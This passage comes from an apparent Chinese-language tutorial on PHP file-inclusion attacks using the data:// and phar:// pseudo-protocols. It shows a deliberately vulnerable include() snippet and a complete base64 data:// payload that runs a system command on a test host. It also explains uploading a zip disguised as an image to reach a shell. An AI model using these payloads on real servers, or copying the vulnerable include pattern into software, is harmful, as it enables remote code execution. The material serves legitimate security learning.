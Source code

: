 利用环境:

```
 allow_url_include=on
 allow_url_fopen=on 
```

使用方法:

```
data://text/plain;base64,xxxx(base64编码后的数据)
```

代码示例

```
<?php
  $filename=$_GET['filename'];
  include($filename);
?>
```

对`<?php system("dir")?>`进行base64编码
PD9waHAgc3lzdGVtKCJkaXIiKT8+ 最后有个+号进行url编码+=%2b

最终Payload:

```
http://192.168.1.110/test.php?filename=data://text/plain;base64,PD9waHAgc3lzdGVtKCJkaXIiKT8%2b  
```   



### 5、phar://伪协议

phar://是用来进行解压的伪协议,phar://参数中的文件不管是什么扩展名,都会被当做压缩包

利用环境

```
PHP>5.3.0
Allow_url_include=on
Allow_url_fopen=on
```

示例代码:

```
<?php
  $filename=$_GET['filename'];
  include($filename);
?>
```

用法:

?file=phar://压缩包/内部文件->phar://xxx.png/shell.php

压缩包要用zip://伪协议压缩，而不能用rar://伪协议

　　新建xiaohua.txt里面包含恶意代码压缩为xiaohua.zip 或者压缩完改后缀jpg上传 然后执行
